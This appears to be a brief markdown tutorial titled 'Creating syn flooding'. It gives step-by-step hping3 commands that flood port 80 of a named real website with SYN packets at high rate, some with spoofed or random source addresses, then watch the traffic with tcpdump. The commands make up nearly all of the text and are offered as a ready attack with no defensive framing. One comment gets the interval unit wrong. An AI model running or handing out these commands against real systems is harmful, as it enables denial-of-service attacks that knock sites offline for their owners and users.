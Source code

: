 ## Creating syn flooding

### Step 1 ( sending acc to target website )

```shell

hping3 --help

## sending acc to port 80 of (sans.org) website

hping3 -i u1 -S -p 80 sans.org

## sending acc to port 80 of (sans.org) website from ip 192.168.33.7

hping3 -i u1 -S -p 80 sans.org -a 192.168.33.7

```

### Step 2 ( sending acc to target website from random ip address )

```shell

# sending acc to port 80 of (sans.org) website from random_ip_address # u1 means 1 ms

hping3 -i u1 -S -p 80 sans.org -a *random_ip_address

## showing this package that send from this ip

tcpdump

```

